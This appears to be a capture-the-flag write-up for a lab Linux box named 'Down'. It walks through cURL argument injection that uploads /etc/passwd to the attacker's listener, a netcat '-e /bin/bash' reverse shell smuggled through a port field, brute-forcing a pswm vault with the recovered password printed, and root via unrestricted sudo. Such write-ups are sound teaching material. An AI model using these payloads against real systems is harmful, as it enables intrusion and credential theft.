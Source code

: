 # Down
Platform: **Linux**
Difficulty: **Easy**

## Initial enumeration

A port scan reveals the following:
```bash
nmap -sC -sV -p 22,80 10.129.203.28  

Host is up (0.056s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f6:cc:21:7c:ca:da:ed:34:fd:04:ef:e6:f9:4c:dd:f8 (ECDSA)
|_  256 fa:06:1f:f4:bf:8c:e3:b0:c8:40:21:0d:57:06:dd:11 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Is it down or just me?
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Now to take a look at the web server.

![img1](images/img1.png)

As this web application's propose is to check whether or not a http server is down, I'll try to find more about how it works.
I'll use NetCat to open a listening port and examine the request it sends.

```bash
# URL: http://10.10.14.193

nc -l 80                           
GET / HTTP/1.1
Host: 10.10.14.193
User-Agent: curl/7.81.0
Accept: */*
```

We now know it's using cURL. I'll check if there is some kind of command injection (using a cURL argument).
```bash
# Payload: http://10.10.14.193 --upload-file 

nc -lnvp 80                                                                                                                    14:08:20 [3/45]
Listening on 0.0.0.0 80                                                                                                                           
Connection received on 10.129.110.91 56176                                                                                                        
PUT /passwd HTTP/1.1                                                                                                                              
Host: 10.10.14.193
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 1876
Expect: 100-continue

...
aleks:x:1000:1000:Aleks:/home/aleks:/bin/bash
...
```

We know have an Arbitrary Read vulnerability. I'll read the "index.php"  

[index.php](index.php)

## Foothold:

We can see that "expert mode" has allows us to add arguments to the NetCat command:
```php
if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' && isset($_POST['ip']) && isset($_POST['port']) ) {
  $ip = trim($_POST['ip']);
  $valid_ip = filter_var($ip, FILTER_VALIDATE_IP);
  $port = trim($_POST['port']);
  $port_int = intval($port);
  $valid_port = filter_var($port_int, FILTER_VALIDATE_INT);
  if ( $valid_ip && $valid_port ) {
    $rc = 255; $output = '';
    $ec = escapeshellcmd("/usr/bin/nc -vz $ip $port");
    exec($ec . " 2>&1",$output,$rc);
    echo '<div class="output" id="outputSection">';
```

I'll establish a reverse shell.

Payload:
```bash
ip=10.10.14.193&port=6666+-e+/bin/bash
```

```bash
rlwrap nc -lnvp 6666
Listening on 0.0.0.0 6666
Connection received on 10.129.110.91 55774

ls
index.php
logo.png
style.css
user_aeT1xa.txt
```

## Privilege Escalation:

We already know about the user "aleks". Looking through his file we can see something interesting:
```bash
ls -la /home/aleks/.local/share/pswm

drwxrwxr-x 2 aleks aleks 4096 Sep 13  2024 .
drwxrwxr-x 3 aleks aleks 4096 Sep 13  2024 ..
-rw-rw-r-- 1 aleks aleks  151 Sep 13  2024 pswm
```

Pswm, as I also found out, it's a password manager. I found a script that will brute force the master key. I'll use it to get the user password.

```bash
python3 pswm-decoder.py 
Password: flower
Decoded text:
pswm    aleks   flower
aleks@down      aleks   1uY3w22uc-Wr{xNHR~+E
```

Credentials:
```
aleks: 1uY3w22uc-Wr{xNHR~+E
```

I'll use ssh to establish a stable shell as aleks.

We can check what rights we have:
```bash
sudo -l
[sudo] password for aleks: 
Matching Defaults entries for aleks on down:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User aleks may run the following commands on down:
    (ALL : ALL) ALL
```

We can no just sudo as root and get the flag.
```
aleks@down:~$ sudo su
root@down:/home/aleks# 
```